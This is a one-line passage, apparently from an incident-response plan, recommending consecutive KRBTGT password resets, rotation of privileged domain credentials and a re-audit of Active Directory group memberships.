  - Initiate domain-wide incident response: perform consecutive KRBTGT password resets, rotate all privileged domain credentials, and re-audit Active Directory group memberships.
